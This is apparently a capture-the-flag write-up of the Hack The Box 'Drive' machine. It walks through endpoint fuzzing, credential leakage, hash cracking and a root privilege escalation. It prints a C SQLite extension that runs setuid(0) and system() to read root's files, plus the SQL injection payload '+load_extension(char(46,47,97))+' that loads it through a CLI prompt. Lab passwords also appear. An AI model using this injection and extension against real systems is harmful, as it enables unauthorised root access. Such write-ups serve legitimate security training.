

# Drive Writeup
<figure></figure>

## Target IP: 10.10.11.235

Nmap Scan: 

```
┌──(kali㉿kali)-[~/Desktop/htb/drive]
└─$ nmap -sC -sV -vv 10.10.11.235
PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 27:5a:9f:db:91:c3:16:e5:7d:a6:0d:6d:cb:6b:bd:4a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCyyCDYN041kanjaSvUxqW5SenLxm0d0OeKT63VFnPxosvShWWbaEg96sDQ96DjFBFwPUco6uWREVp/Iqbr4pU+CyuzuGgvyHSkluruW386eCUwHyigizK98wPLpZWDc50xXJjUV+lSbczNrO8K4IgFgB6PxoXrw3nl9/lsJEH2dlZn/cwD78CO5/lrx4EowSky2dFPjpIGhM6bWHe1iKugD9Jlyq66f5Cw3B1Kszr5HgdiMCYpw3ykfpeRbcNL0pWn1AN9KeBkIJGNpzJ9RPj1YB0s5i9LPdcq64gyhrCmcfl3yYukq4R5OLuHRbbnc7TZHT3zHSkx9uln0QDDEL7CGGZbtRpPj2D++jjDuIK/mtaWGerjgHonX0RA/IPACyEYv01C6J5hjpuQGqJvbldtz9wOS7hJUgYx/MH2n2N8r0pSOIYQL7KxkFZ72w7WiQGktRt+Jzj5QvAXhbtXpkY9rhib7DL1lLMv5VBE5YAwuwQutbSUYAtZKSG57xwVPhU=
|   256 9d:07:6b:c8:47:28:0d:f2:9f:81:f2:b8:c3:a6:78:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCnF1ZLcx/U/Eo2AMywmmrEXFf3MKF6k2oelVjHswAvYtAqk0Nbv8SCQF9gpR/EkDvoSF0bBIoovBnk2bHDT6SI=
|   256 1d:30:34:9f:79:73:69:bd:f6:67:f3:34:3c:1f:f9:4e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPJ60hQRxnk2iSpqzRQ4g/dd6SQFrOXnu/gN0SU2f4U/
80/tcp   open     http    syn-ack     nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://drive.htb/
3000/tcp filtered ppp     no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The sus thing is that port 3000 is filtered hmmm.

Adding `http://drive.htb` to `/etc/hosts`.

<figure></figure>

## Web Enumeration

This website seems to replicate Google Drive but its just Doogle Grive xD.

After understanding the functionality a bit, I can see that there are numbers in the endpoint which can be fuzzed easily.

I loaded the request in Burp Intruder and bruteforced the endpoints and found the endpoint `79` had some juicy information.

<figure></figure>

So we found that the user is `martin` and the password is `Xk4@KjyrYv8t194L!`

## User Flag

Let's login with the credentials so SSH.

```
┌──(kali㉿kali)-[~/Desktop/htb/drive]
└─$ ssh martin@10.10.11.235 
martin@10.10.11.235's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 25 Dec 2023 08:52:14 AM UTC

  System load:           0.01
  Usage of /:            63.0% of 5.07GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             228
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.235
  IPv6 address for eth0: dead:beef::250:56ff:feb9:898d


Expanded Security Maintenance for Applications is not enabled.

Last login: Sun Dec 24 22:58:42 2023 from 10.10.14.85
martin@drive:~$ id
uid=1001(martin) gid=1001(martin) groups=1001(martin)
```

Since we saw that port 3000 is filtered let's try port forwarding to see what is there.

I also found some db files in the `/var/www/backup` folder.

<figure></figure>

After opening the db file I found some users and hashes.

<figure></figure>

I was able to crack one of the passwords for Tom.

```
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john31
```

But I didnt get access to anything using that.

After a bit of rethinking I used martin's password to login with gitea.

<figure></figure>

I found the password for the 7z files in the `db_backup.sh`.

<figure></figure>

```
H@ckThisP@ssW0rDIfY0uC@n:)
```

Great news! We’ve located the password to the 7z files, and after extracting them, we’ve uncovered several SQLite databases.

I found `johnmayer7` password for `Tom` so let's login with SSH for that.

And we have found the User Flag.

```
┌──(kali㉿kali)-[~/Desktop/htb/drive]
└─$ ssh tom@10.10.11.235    
tom@10.10.11.235's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 25 Dec 2023 09:34:19 AM UTC

  System load:           0.0
  Usage of /:            63.0% of 5.07GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             237
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.235
  IPv6 address for eth0: dead:beef::250:56ff:feb9:898d


Expanded Security Maintenance for Applications is not enabled.


Last login: Mon Dec 25 00:37:36 2023 from 10.10.14.85
tom@drive:~$ ls
a.c  a.so  doodleGrive-cli  README.txt  user.txt
```

## Root Flag

When I try to execute `doodleGrive-cli`, It asks for username and password.

<figure></figure>

So `doodleGrive-cli` looks like a binary file. I import it in my kali machine to inspect it a little more.

Using `ida`, I did some analysis.

<figure></figure>

OKAY WOW T_T....

So I found some more Credentials here as well.

<figure></figure>

```
moriarty:findMeIfY0uC@nMr.Holmz!
```

The creds are correct!!

There is an SQL injection possible to include files where sanitization is not done properly.

Compiling this `a.c` file

```
#include <stdlib.h>
#include <unistd.h>
void sqlite3_a_init() {
    setuid(0);
    setgid(0);
    system("/usr/bin/cat /root/root.txt > /tmp/a.txt");
}
```

So that the root flag can come to our `/tmp/a.txt`.

```
+load_extension(char(46,47,97))+
```
This command because
```
46 -> .
47 -> /
97 -> a
```

So that the file can be executed

```
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 
```

Now we gotta figure out what else is in the binary.

<figure></figure>

```
tom@drive:~$ ls
a.c  a.so  doodleGrive-cli  README.txt  user.txt
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,97))+"
Activating account for user '"+load_extension(char(46,47,97))+"'...

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 6
exiting...
tom@drive:~$ cd /tmp
tom@drive:/tmp$ ls
a.txt                                                                           systemd-private-585a492cf79c4e6ca6ca0dc43bc03f4e-systemd-resolved.service-OMEaTe   vmware-root_735-4257003928
systemd-private-585a492cf79c4e6ca6ca0dc43bc03f4e-ModemManager.service-316bTf    systemd-private-585a492cf79c4e6ca6ca0dc43bc03f4e-systemd-timesyncd.service-VM0x4i
systemd-private-585a492cf79c4e6ca6ca0dc43bc03f4e-systemd-logind.service-bVs6Zh  systemd-private-585a492cf79c4e6ca6ca0dc43bc03f4e-upower.service-1nNMDi
tom@drive:/tmp$ cat a.txt 
3a85a5df8e3f8dce32a62975ee0a9adb
```

Thank Youu!! Happy Hacking :D